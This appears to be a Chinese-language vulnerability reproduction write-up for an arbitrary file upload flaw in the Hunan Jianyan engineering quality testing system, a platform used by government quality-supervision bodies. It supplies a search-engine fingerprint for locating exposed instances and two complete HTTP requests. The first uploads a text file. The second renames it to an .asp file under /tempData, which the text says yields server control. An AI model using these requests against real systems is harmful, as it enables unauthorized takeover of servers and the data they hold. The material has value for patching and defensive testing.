 # 湖南建研工程质量检测系统Attachment存在任意文件上传漏洞

# 一、漏洞简介
湖南建研质量监测系统由相关政府质量监督机构、参建单位等共同参与，根据各自的职责，上网操作相应的模块，实现工程质量监督业务的统一管理。该系统存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 湖南建研工程质量检测系统

# 三、资产测绘
+ hunter`web.body="/Content/Theme/Standard/webSite/login.css"`
+ 特征

![1702346060563-9e664378-c6d3-46b6-84b3-8d0043c714cd.png](./img/xVEDcUrG89WfIpu8/1702346060563-9e664378-c6d3-46b6-84b3-8d0043c714cd-920956.png)

# 四、漏洞复现
1. 上传txt文件

```java
POST /Applications/Attachment/upload.ashx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 204
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="123.txt"

12323344
--00content0boundary00
Content-Disposition: form-data; name="_upload_guid"

123
--00content0boundary00--

```

	![1714273613117-5394b2fc-d757-4f78-af67-28fe199a8804.png](./img/xVEDcUrG89WfIpu8/1714273613117-5394b2fc-d757-4f78-af67-28fe199a8804-531084.png)

2. 将文件改名

```java
POST /Standard/Editor/API/File.cshtml?act=geturl HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 59
Connection: close

filename=/tempData/stc.asp&filetplpath=/tempData/123.txt
```

![1714273657972-2fcea581-f80c-41be-a7d5-c01be5325229.png](./img/xVEDcUrG89WfIpu8/1714273657972-2fcea581-f80c-41be-a7d5-c01be5325229-807428.png)

3. 文件上传位置

```java
/tempData/stc.asp
```



> 更新: 2024-04-28 11:08:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vbwrh9veoyfo2yhb>